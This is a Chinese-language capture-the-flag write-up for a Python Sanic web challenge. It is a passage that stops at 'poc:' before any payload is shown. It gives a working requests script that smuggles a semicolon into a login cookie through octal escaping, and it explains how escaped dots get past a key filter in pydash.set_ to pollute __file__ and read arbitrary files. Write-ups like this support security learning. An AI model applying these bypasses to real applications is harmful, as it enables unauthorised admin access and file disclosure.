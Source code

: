 ### 考点1: RFC2068 的编码规则
构造cookie.user= `'adm;n'`,但有个` ; ` 直接传会被截断,8进制编码绕过

```python
import requests  
  
base = ''  
  
s = requests.Session()  
  
s.cookies.update({  
    'user': '"adm\\073n"'  
})  
  
s.get(base + '/login')
```
![Pasted image 20240618160711.png](/img/user/Choco%E2%80%98s%20wiki/Notes/media/Pasted%20image%2020240618160711.png)

### 考点2: python的原型链污染

#### 第一次污染 任意文件读取
```python
@app.route("/src")  
async def src(request):  
    return text(open(__file__).read())  
```
默认`__file__`表示当前文件，把这个值改掉就能实现任意文件读取了

然后看到：
```python
@app.route("/admin", methods=['GET', 'POST'])  
async def admin(request):  
    if request.ctx.session.get('admin') == True:  
        key = request.json['key']  
        value = request.json['value']  
        if key and value and type(key) is str and '_.' not in key:  
            pollute = Pollute()  
            pydash.set_(pollute, key, value)  
            return text("success")  
        else:  
            return text("forbidden")  
  
    return text("forbidden")  
```

set_跟代码跟到
```python
# This is used to split a deep path string into dict keys or list indexes. This matches "." as  
# delimiter (unless it is escaped by "//") and "[<integer>]" as delimiter while keeping the  
# "[<integer>]" as an item.  
RE_PATH_KEY_DELIM = re.compile(r"(?<!\\)(?:\\\\)*\.|(\[\d+\])")

...

keys = [  
    PathToken(int(key[1:-1]), default_factory=list)  
    if RE_PATH_LIST_INDEX.match(key)  
    else PathToken(unescape_path_key(key), default_factory=dict)  
    for key in filter(None, RE_PATH_KEY_DELIM.split(value))  
]
```
发现 斜杠+. 会当作.进行处理，可以绕过题目的过滤，而 . 会作为 . 的转义不进行分割
- `abc.def`：匹配 `.`，因为它是一个不被转义的句号。
- `abc\\.def`：不匹配 `.`，因为它是被转义的句号。
poc：